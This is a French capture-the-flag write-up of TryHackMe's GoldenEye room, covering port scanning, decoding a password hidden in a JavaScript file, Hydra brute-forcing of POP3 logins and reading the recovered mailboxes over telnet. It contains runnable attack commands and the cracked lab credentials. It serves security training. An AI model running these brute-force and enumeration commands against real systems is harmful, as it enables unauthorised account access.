



# \[GoldenEye]\[CTF]\[TryHackMe]

Page de réserve pour le challenge \[GoldenEye]

<figure><figcaption><p>Tumbnail [GoldenEye]</p></figcaption></figure>

> "_This room will be a guided challenge to hack the James Bond styled box and get root. Credit to creosote for creating this VM."_

[Lien vers Tryhackme.com](https://tryhackme.com/r/room/goldeneye)

## **\[Task 1] Intro & Enumeration**

Commençons les énumérations de façon classique avec Nmap et Gobuster.

### [Nmap](outils.md#nmap)

```sh
nmap $IP -A -p- -oN nmap.txt -T4
```

```shell-session
PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: TOP PIPELINING UIDL STLS USER SASL(PLAIN) AUTH-RESP-CODE CAPA RESP-CODES
|_ssl-date: TLS randomness does not represent time
```

Ce qui nous donne déjà une première réponse :

<table><thead><tr><th width="626">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>Use nmap to scan the network for all ports. How many ports are open?</td><td>4</td></tr></tbody></table>

### [Gobuster](outils.md#gobuster)

```sh
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt" -u $IP -t50
```

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt" -u $IP -t50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.2.201
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 282]
/.html                (Status: 403) [Size: 283]
/index.html           (Status: 200) [Size: 252]
/.php                 (Status: 403) [Size: 282]
/.html                (Status: 403) [Size: 283]
/server-status        (Status: 403) [Size: 291]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================

```

### Exploitation

Rendons-nous sur la page html du site avec Firefox

<figure><figcaption><p>première page</p></figcaption></figure>

analysons le code source de la page

<figure><figcaption><p>code source première page</p></figcaption></figure>

comme recommandé dans le challenge, inspectons tous les scripts et en particulier **terminal.js**

### code source de terminal.js

```javascript
var data = [
  {
    GoldenEyeText: "<span><br/>Severnaya Auxiliary Control Station<br/>****TOP SECRET ACCESS****<br/>Accessing Server Identity<br/>Server Name:....................<br/>GOLDENEYE<br/><br/>User: UNKNOWN<br/><span>Naviagate to /sev-home/ to login</span>"
  }
];

//
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//

var allElements = document.getElementsByClassName("typeing");
for (var j = 0; j < allElements.length; j++) {
  var currentElementId = allElements[j].id;
  var currentElementIdContent = data[0][currentElementId];
  var element = document.getElementById(currentElementId);
  var devTypeText = currentElementIdContent;

 
  var i = 0, isTag, text;
  (function type() {
    text = devTypeText.slice(0, ++i);
    if (text === devTypeText) return;
    element.innerHTML = text + `<span class='blinker'>&#32;</span>`;
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}
```

<table><thead><tr><th width="574">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>Who needs to make sure they update their default password?</td><td>boris</td></tr></tbody></table>

### Cyber Chef

Le code source nous révèle un hash qui ressemble furieusement à des codes ASCII.

```
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```

Confions ce hash à [cyber chef](https://gchq.github.io/CyberChef/) et au passage, remarquons qu'il nous propose le décodage « magique »

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>cyberchef</p></figcaption></figure>

Ce qui nous donne la réponse à la question suivante.

<table><thead><tr><th width="505">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>Whats their password?</td><td>InvincibleHack3r</td></tr></tbody></table>

**Nous connaissons maintenant deux utilisateurs, boris et natalya et nous avons un mot de passe pour boris.**

## \[Task 2] Its mail time...

### Firefox

Essayons d'abord de nous connecter via Firefox avec l'utilisateur boris:InvincibleHack3r.

<figure><figcaption><p>sev-home login</p></figcaption></figure>

<figure><figcaption><p>GoldenEye page index</p></figcaption></figure>

L'analyse du code source de la page ne mène à rien d'exploitable.

Comme suggéré dans le challenge et dans la page index, tentons de nous connecter avec l'utilisateur boris:InvincibleHack3r au serveur pop3 sur le port 55007 trouvé avec nmap .

( [pop3 en ligne de commande](https://www.vircom.com/blog/quick-guide-of-pop3-command-line-to-type-in-telnet/) )

```sh
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.43.8...
Connected to 10.10.43.8.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```

### Hydra

Comme les crédentiels de l'utilisateur boris ne fonctionnent pas pour le serveur pop3, le challenge suggère d'utiliser [Hydra](outils.md#hydra).

Lançons une brute-force hydra pop3 port 55007 avec la wordlist classique rockyou.txt

```sh
hydra -l boris  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s 55007 -t 64
```

Au bout de 10 minutes, nous n'avons trouvé aucun password et la commande semble partie pour des heures ! Dans les challenges THM, les attaques brut-force répondent en général en quelques minutes, certainement en moins de 10 minutes. (Tout dépend évidemment de la vitesse de calcul de votre machine.)

Changeons la wordlist et lançons Hydra avec fasttrack.txt en lieu et place de rockyou.txt.

```sh
hydra -l boris  -P /usr/share/wordlists/fasttrack.txt  pop3://$IP -s 55007 -t 64
```

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ hydra -l boris  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s 55007 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-05 04:55:45
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.43.8:55007/
[55007][pop3] host: 10.10.43.8   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-05 04:56:13

```

idem pour natalya

```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ hydra -l natalya  -P /usr/share/wordlists/fasttrack.txt  pop3://$IP -s 55007 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-05 04:56:27
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.43.8:55007/
[55007][pop3] host: 10.10.43.8   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-05 04:56:57

```

### Utilisateurs pop3 trouvés jusqu'à présent

| Utilisateur | Password |
| ----------- | -------- |
| boris       | secret1! |
| natalya     | bird     |

### Réponses aux questions

<table><thead><tr><th width="538">Questions</th><th>Réponses</th></tr></thead><tbody><tr><td>If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?</td><td>secret1!</td></tr><tr><td>Inspect port 55007, what services is configured to use this port?</td><td>telnet</td></tr><tr><td>What can you find on this service?</td><td>emails</td></tr><tr><td>What user can break Boris' codes?</td><td>natalya</td></tr></tbody></table>

### Emails

#### Boris

```sh
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.43.8...
Connected to 10.10.43.8.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id D9E47454B1
	for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
.
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id C3F2B454B1
	for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
.
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id 4B9F4454B1
	for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.

.

```

#### Natalya

```sh
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ telnet $IP 55007
Trying 10.10.43.8...
Connected to 10.10.43.8.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id D5EDA454B1
	for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 17C96454B1
	for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.

```

